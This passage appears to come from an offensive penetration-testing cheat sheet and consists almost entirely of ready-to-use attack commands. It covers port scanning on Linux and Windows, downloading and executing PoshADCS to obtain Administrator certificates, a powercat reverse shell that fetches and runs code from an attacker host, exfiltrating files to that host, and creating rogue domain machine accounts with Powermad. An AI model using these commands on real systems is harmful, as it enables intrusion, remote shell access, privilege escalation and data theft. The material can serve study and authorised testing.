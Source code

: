 #### On a Linux Operating System

```c
$ nc -zv 127.0.0.1 1-65535 | grep succeeded
```

```c
$ for port in {1..65535}; do echo > /dev/tcp/<RHOST>/$port && echo "$port open"; done 2>/dev/null
```

#### On a Windows Operating System

```c
PS C:\> 1..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect("<RHOST>",$_)) "$_ port open"} 2>$null
```

### PoshADCS

> https://github.com/cfalta/PoshADCS/blob/master/ADCS.ps1

```c
PS C:\> curl http://<LHOST>/ADCS.ps1 | iex
PS C:\> Get-SmartCardCertificate -Identity Administrator -TemplateName Web -NoSmartCard -Verbose
PS C:\> gci cert:\currentuser\my -recurse
```

### powercat

> https://github.com/besimorhino/powercat

```c
PS C:\> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<LHOST>/powercat.ps1');powercat -c <LHOST> -p <LPORT> -e cmd"
```

#### File Transfer

```c
$ impacket-smbserver local . -smb2support
```

```c
PS C:\> Import-Module .\powercat.ps1
PS C:\> powercat -c <LHOST> -p 445 -i C:\PATH\TO\FILE\<FILE>
```

### Powermad

```c
PS C:\> Import-Module ./Powermad.ps1
PS C:\> $secureString = convertto-securestring "<PASSWORD>" -asplaintext -force
PS C:\> New-MachineAccount -MachineAccount <NAME> -Domain <DOMAIN> -DomainController <DOMAIN> -Password $secureString
```

### PowerShell Constrained Language Mode (CLM)
